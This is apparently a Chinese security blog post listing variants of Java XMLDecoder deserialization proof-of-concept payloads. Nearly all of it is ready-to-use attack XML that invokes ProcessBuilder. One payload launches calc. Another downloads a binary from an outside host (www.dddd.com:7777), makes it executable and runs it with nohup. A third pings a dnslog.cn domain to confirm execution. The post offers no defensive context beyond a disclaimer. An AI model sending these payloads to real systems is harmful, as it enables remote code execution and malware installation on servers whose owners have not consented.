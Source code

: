 #  Java XMLDecode反序列化POC变形   
原创 酒零  NOVASEC   2025-04-09 22:01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZDxicuqPkFfjdG2kcyzCXrXf0zrlDGZOnCofnEffxJaK5EDWfvZprrvHVAGSxiaSeXibS6GerhEAsLjw/640?wx_fmt=png "")  
  
  
**△△△点击上方“蓝字”关注我****们了解更多精彩**  
  
  
  
  
  
**0x00 前言**  
  
****  
**免责声明：继续阅读文章视为您已同意[****NOVASEC免责声明****].**  
  
  
  
记录一些  
简单的  
Java XMLDecode反序列化POC变形  
  
  
1  
  
**0x01 ProcessBuilder执行**  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="1">
   <void index="0"><string>calc</string></void>
 </array>
 <void method="start"></void>
</object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="1">
   <void index="0"><string>curl http://www.dddd.com:7777/as -O && chmod +x as && nohup ./as &</string></void>
 </array>
 <void method="start"></void>
</object>
</java>
```  
  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
 <array class="java.lang.String" length="1">
   <void index="0"><string>ping -c 1 -n 1 xxxxx.dnslog.cn</string></void>
 </array>
 <void method="start"></void>
</object>
</java>
```  
  
